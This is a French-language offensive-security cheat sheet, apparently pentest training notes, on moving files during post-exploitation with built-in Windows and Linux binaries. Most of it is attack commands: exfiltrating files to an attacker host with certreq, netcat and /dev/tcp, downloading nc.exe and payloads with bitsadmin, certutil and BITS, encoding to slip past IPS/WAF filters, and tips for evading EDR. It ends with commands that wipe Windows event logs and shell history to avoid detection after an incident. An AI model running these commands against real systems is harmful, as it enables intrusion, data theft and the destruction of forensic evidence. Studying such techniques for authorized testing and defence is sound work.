

Ce document détaille les techniques de transfert de fichiers exploitant les binaires natifs (**LOLBins**), une approche courante en phase de post-exploitation pour minimiser l'empreinte sur le système cible. Ces méthodes sont étroitement liées aux concepts d'**Evasion de la détection**, de **Post-Exploitation Windows**, de **Post-Exploitation Linux** et de **Network Pivoting**.



## Windows : LOLBAS Project

Les **LOLBAS** (Living Off The Land Binaries and Scripts) permettent d'exécuter des actions légitimes détournées.

### certreq.exe (Upload)
Permet l'exfiltration de fichiers via une requête POST.

```bash
C:\htb> certreq.exe -Post -config http://<IP>:8000/ C:\Windows\win.ini
```

Sur l'attaquant :
```bash
sudo nc -lvnp 8000
```

> [!danger] Danger
> L'utilisation de binaires natifs peut générer des logs d'exécution suspects (**Event ID 4688**).

### bitsadmin.exe (Download)
Utilise le service **BITS** (Background Intelligent Transfer Service) pour le téléchargement.

```bash
bitsadmin /transfer job1 /priority foreground http://<IP>:8000/nc.exe C:\Users\Public\nc.exe
```

### PowerShell + BITS (Download)
Méthode native via le module **BitsTransfer**.

```powershell
Import-Module bitstransfer
Start-BitsTransfer -Source "http://<IP>:8000/nc.exe" -Destination "C:\Temp\nc.exe"
```

### certutil.exe (Download)
> [!warning] Attention
> **certutil.exe** est fortement surveillé par les EDR modernes.

```bash
certutil.exe -verifyctl -split -f http://<IP>:8000/nc.exe
```

## Linux : GTFOBins

### OpenSSL (Download)
Utilisation d'**openssl** pour créer un tunnel chiffré et transférer des données.

**Attaquant** :
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
openssl s_server -quiet -accept 80 -cert cert.pem -key key.pem < /tmp/LinEnum.sh
```

**Cible** :
```bash
openssl s_client -connect <IP>:80 -quiet > LinEnum.sh
```

## Encodage et obfuscation (Base64/Hex)
Pour contourner les filtres de contenu (IPS/WAF) ou éviter la corruption de caractères lors du transfert, l'encodage est indispensable.

**Encodage (Attaquant)** :
```bash
base64 -w 0 payload.exe > payload.b64
```

**Décodage (Cible Windows)** :
```powershell
[IO.File]::WriteAllBytes("C:\Temp\payload.exe", [Convert]::FromBase64String((Get-Content "C:\Temp\payload.b64")))
```

**Décodage (Cible Linux)** :
```bash
base64 -d payload.b64 > payload.exe
```

## Techniques de contournement EDR/AV
Le transfert de fichiers est souvent bloqué par l'analyse heuristique. L'utilisation de flux alternatifs permet de réduire la détection.

*   **Renommage des binaires** : Copier `certutil.exe` vers `c.exe` avant exécution pour éviter les signatures basées sur le nom de fichier.
*   **Utilisation de fichiers temporaires** : Privilégier `C:\Users\Public\` ou `/dev/shm/` (mémoire vive) pour éviter les scans sur disque.
*   **Fragmentation** : Découper les fichiers volumineux avec `split` pour éviter les alertes de flux réseau anormaux.

## Transfert via protocoles alternatifs (SMB/WebDAV)
Lorsque le trafic HTTP est restreint, l'utilisation de protocoles natifs de partage de fichiers est une alternative efficace.

**Montage SMB (Linux vers Windows)** :
```bash
impacket-smbserver -smb2support share /tmp/share
```
Sur la cible :
```cmd
copy \\<IP>\share\payload.exe C:\Temp\
```

**WebDAV** :
Utiliser `wsgidav` pour monter un serveur WebDAV si le port 80/443 est autorisé mais que le transfert HTTP standard est inspecté.

## Netcat / Ncat (Transfert bidirectionnel)

### Envoi depuis Attaquant vers Cible
**Cible** :
```bash
nc -l -p 8000 > fichier.exe
```

**Attaquant** :
```bash
nc -q 0 <IP> 8000 < fichier.exe
```

### Envoi depuis Cible vers Attaquant
**Attaquant** :
```bash
nc -l -p 443 > exfil.dat
```

**Cible** :
```bash
cat fichier.txt > /dev/tcp/<IP>/443
```

## PowerShell Remoting (Copy-Item)

> [!warning] Prérequis
> **PowerShell Remoting** nécessite des privilèges administratifs ou **WinRM** configuré.

### Création de session
```powershell
$Session = New-PSSession -ComputerName TARGET
```

### Transfert de fichier vers cible
```powershell
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Public\
```

### Récupération de fichier depuis cible
```powershell
Copy-Item -FromSession $Session -Path C:\Sensitive\file.txt -Destination C:\loot\
```

## RDP - Montage de disque

### Sous Linux avec xfreerdp
```bash
xfreerdp /v:<IP> /u:admin /p:'password' /drive:linux,/home/user/share
```
Accès au répertoire local via `\tsclient\linux` sur la cible.

## Nettoyage des logs et traces
Le nettoyage est critique pour maintenir l'accès et éviter la détection post-incident.

*   **Windows Event Logs** :
    ```powershell
    wevtutil cl System
    wevtutil cl Security
    wevtutil cl Application
    ```
*   **Historique Bash** :
    ```bash
    history -c
    rm ~/.bash_history
    ln -s /dev/null ~/.bash_history
    ```

## Méthodologie opérationnelle

> [!tip] Astuce
> Toujours vérifier la connectivité réseau (firewall) avant de tenter un transfert.

| Action | Commande / Méthode |
| :--- | :--- |
| Vérification binaire | `where <binaire>` |
| Documentation LOLBAS | [https://lolbas-project.github.io/](https://lolbas-project.github.io/) |
| Documentation GTFOBins | [https://gtfobins.github.io/](https://gtfobins.github.io/) |